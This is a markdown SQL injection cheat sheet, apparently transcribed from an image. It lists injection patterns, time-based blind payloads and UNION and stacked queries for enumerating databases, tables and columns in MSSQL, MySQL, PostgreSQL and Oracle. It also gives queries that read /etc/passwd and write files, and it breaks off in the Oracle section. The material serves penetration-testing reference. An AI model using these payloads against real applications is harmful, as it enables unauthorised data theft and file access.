 # SQL Injection Cheatsheet

## Key Delimiters & Enclosures
- `'`, `"` → String delimiters  
- `` ` `` → MySQL identifier quoting  
- `;` → Statement separator  
- `--`, `/*...*/` → Comments  
## Injection Patterns
- Basic: `' OR 1=1--`  
- Closing Brackets: `')`, `')))--`, `%'))-- -`  
- Logical Operators: `OR`, `AND`  
- Union: `' UNION SELECT ... --`  
- Time-based Blind:
  - MySQL: `'; SELECT SLEEP(5);--`
  - MSSQL: `'; WAITFOR DELAY '00:00:05';--`
  - Oracle: `'; dbms_lock.sleep(5);--`
  - PostgreSQL: `'; SELECT pg_sleep(5);--`
- Out-of-Band: DNS/HTTP queries  
## Testing Methodology
1. Find injection points  
2. Manipulate inputs (delimiters/patterns)  
3. Observe behavior/errors  
4. Automate (SQLMap, OWASP ZAP)  
---
# MSSQL
### List Databases
- Normal: `SELECT name FROM sys.databases;`  
- Union: `' UNION SELECT name, NULL FROM master..sysdatabases --`  
- Stacked: `; SELECT name FROM master..sysdatabases; --`  

### List Tables
- Normal: `SELECT * FROM app.information_schema.tables;`  
- Union: `' UNION SELECT TABLE_NAME, NULL FROM information_schema.tables --`  
- Stacked: `; SELECT * FROM information_schema.tables; --`  

### List Columns
- Normal: `SELECT COLUMN_NAME, DATA_TYPE FROM app.information_schema.columns WHERE TABLE_NAME='menu';`  
- Union: `' UNION SELECT COLUMN_NAME, NULL FROM information_schema.columns WHERE TABLE_NAME='table_name' --`  
- Stacked: `; SELECT COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME='table_name'; --`  
---
# MySQL

### List Databases
- Normal: `SHOW DATABASES;`
- Union: `' UNION SELECT schema_name, NULL FROM information_schema.schemata --`
- Stacked: `; SHOW DATABASES; --`   

### List Tables
- Normal: `SHOW TABLES;`
- Union: `' UNION SELECT TABLE_NAME, NULL FROM information_schema.tables WHERE table_schema='db' --`

### List Columns
- Normal: `SHOW COLUMNS FROM table_name;`    
- Union: `' UNION SELECT COLUMN_NAME, NULL FROM information_schema.columns WHERE table_name='table_name' --`

### Read Files
`SELECT LOAD_FILE('/etc/passwd');`

### Write Files
`SELECT * INTO OUTFILE '/tmp/file.txt' FROM table_name;`

---
# PostgreSQL

### List Databases
- Normal: `SELECT datname FROM pg_database;`
- Union: `' UNION SELECT datname, NULL FROM pg_database --`

### List Tables
- Normal: `SELECT table_name FROM information_schema.tables WHERE table_schema='public';`

### List Columns
- Normal: `SELECT column_name FROM information_schema.columns WHERE table_name='table_name';`
### Read Files
`SELECT pg_read_file('/etc/passwd', 0, 1000000);`

### Write Files
`COPY table_name TO '/tmp/file.csv' DELIMITER ',' CSV HEADER;`

---
# Oracle
### List Databases
- Normal: `SELECT name FROM v$database;`
- Union: `' UNION SELECT name, NULL FROM v$database --`
### List Tables
- Normal: `SELECT table_name FROM all_tables;`
### List Columns
- Normal: `SELECT column_name FROM a`